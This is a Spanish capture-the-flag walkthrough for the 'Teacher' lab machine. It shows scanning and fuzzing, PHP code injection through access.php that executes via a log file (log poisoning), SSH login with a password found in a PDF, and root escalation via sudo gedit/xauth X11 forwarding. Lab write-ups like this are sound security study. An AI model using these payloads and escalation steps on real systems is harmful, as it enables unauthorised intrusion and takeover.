

```php 
##########################################################################################################
#
# CTF a la Máquina Teacher
#
# DATE: 1/Octubre/2022
#
# Gracias a @WWFYMN por las pistas
#
#########################################################################################################
```
# Footprinting
```bash 
IP_atacante -> $ifconfig -> 192.168.0.5
IP_objetivo -> $netdiscover -r 192.168.0.0/24 -> 192.168.0.69
```
# Escaneo y Enumeración

* Veo que puertos tiene abiertos,

```php 
nmap -sVC -T4 -n -p- 192.168.0.69
```
* Obtengo los siguientes puertos abiertos, 22 SSH y 80 HTTP

```php 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 1e:21:69:d3:57:da:3a:04:0b:6f:f4:50:fb:97:13:10 (RSA)
|   256 36:ee:7f:57:1d:a5:b5:ce:1f:41:ba:b0:43:32:2e:ff (ECDSA)
|_  256 f2:bd:80:dd:e5:05:02:49:c3:3b:9f:83:29:cb:54:96 (ED25519)
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.54 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
``` 

* Cargo la web y muestra el siguiente mensaje

```php
Hi student, make this server secure please.

Our first server got hacked by cool and avijneyam in the first hour, 
that server was just a test but this server is important becouse this will be used for teaching, 
if we get hacked you are getting an F
``` 
* El código fuente de la página tiene el siguiente comentario

```php 
<!-- Yes mrteacher I will do it -->
``` 
> Puede ser **mrteacher** un nombre de usuario ?

* Búsqueda de ficheros y directorios

```php 
feroxbuster -s 200 -u http://192.168.0.69 -d 2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,php,jpg,png
```

* Resultado:

```php 
200        5l       57w      315c http://192.168.0.69/index.html
200   124725l     5579w        0c http://192.168.0.69/log.php
200        1l        2w       12c http://192.168.0.69/access.php
200       14l       28w      676c http://192.168.0.69/manual/index.html
200      755l     2925w   130469c http://192.168.0.69/rabbit.jpg
200        0l        0w        0c http://192.168.0.69/clearlogs.php
``` 

* El stego, **stegseeker**, del *rabbit.jpg* me dice que es un rabbit hole

```php 
cat rabbit.jpg.out 
RabbitHole lol
```
* Fuzzeo el access para intentar sacar el parámetro

```php 
wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/url-params_from-top-55-most-popular-apps.txt -r 5 --hc 404 http://10.0.2.11/access.php?FUZZ=FUZZ
```
> Obtengo un posible parámetro *id* 

* Intento *cosas* con el script **access.php**, como por ejemplo

```php
http://192.168.0.69/access.php?id=1
```
Y observo, con el inspector de firefox, que lo que ponga ahí me lo mete en una etiqueta de image html, que no carga nada porque no existe un fichero de imagen que se llame *1*. Pero si pongo:

```php 
http://192.168.0.69/access.php?id=rabbit.jpg
```
Carga la imagen del conejo de antes

```php 

```

Pero eso no me lleva a ningún sitio

* Pruebo metiendo un script de php 

```php 
http://192.168.0.69/access.php?id=<?php echo exec('id'); ?>
```

Pero nada 👎 en access.php, 


* sin embargo si cargo en ese momento **log.php** 


> Me ha resultado útil en ocasiones, resetear el log, con el fichero **clearlogs.php**
> 
> Thanks to @WWFYMN for this


* Si pruebo un *ls -l /home/* obtengo

```php 
your logs: drwxr-xr-x 5 mrteacher mrteacher 4096 Sep 5 17:55 mrteacher
```
> Así que ya tengo un nombre de usuario confirmado

# Acceso

* Si ejecuto un ls,
```php 
http://192.168.0.69/access.php?id=%3C?php%20echo%20shell_exec(%27ls%20-l%27);%20?%3E
```

obtengo,

```php 
your logs:

total 5324
-rw-r--r-- 1 root      root          191 Aug 25 16:53 access.php
-rw-r--r-- 1 root      root           48 Aug 26 19:39 clearlogs.php
-rw-r--r-- 1 mrteacher mrteacher 5301604 Aug 25 17:38 e14e1598b4271d8449e7fcda302b7975.pdf
-rw-r--r-- 1 root      root          315 Aug 26 16:51 index.html
-rwxrwxrwx 1 root      root           47 Sep 29 23:08 log.php
-rw-r--r-- 1 root      root       130469 Aug 26 16:39 rabbit.jpg
```
Y leyendo el pdf obtengo una contraseña


* Accedo por ssh

```php 
ssh mrteacher@192.168.0.69
pass: Thank....
```

* Capturo la bandera de usuario

```console
9c.......
```

# Acceso a Root

* Ejecuto un **sudo -l** y obtengo

```php 
User mrteacher may run the following commands on Teacher:
    (ALL : ALL) NOPASSWD: /bin/gedit, /bin/xauth
```
* La idea será ejecutar el editor *gedit* como root haciendo *X11 Forwarding* mediante una conexión *SSH*

1. Comprobar si está habilitado el servicio de X11 Forwarding

```php 
grep -i forward /etc/ssh/sshd_config

X11Forwarding yes
```
2. Establecer una conexión SSH habilitando el reenvio a X111

```php
ssh -X mrteacher@192.168.0.69
```
> Comprobamos que funciona el reenvío ejecutando **gedit** como el usuario *mrteacher*, debe funcionar



Sin embargo si intentamos ejecutar *gedit* como otro usuario, root en nuestro caso, no va a funcionar porque el fichero **Xauthority** de *root* no sabe nada sobre la **magic cookie** que se ha pasado en la primera conexión *SSH*. Así que vamos a generarla para ese **display** y añadirla al fichero

3. Generamos la magic cookie

```php 
mrteacher@Teacher:~$ echo xauth add $(xauth list ${DISPLAY#localhost})

xauth add Teacher/unix:10 MIT-MAGIC-COOKIE-1 859f3db444b1a77d9c0602bd4d804c25
```

4. La añadimos al *Xauthority* de *root* 

```php 
sudo xauth add Teacher/unix:10 MIT-MAGIC-COOKIE-1 859f3db444b1a77d9c0602bd4d804c25
```
Comprobamos que se ha grabado:

```php 
mrteacher@Teacher:~$ sudo xauth list
Teacher/unix:10  MIT-MAGIC-COOKIE-1  859f3db444b1a77d9c0602bd4d804c25
```

5. Ejecutamos gedit como root, voy al directorio de root y obtengo bandera

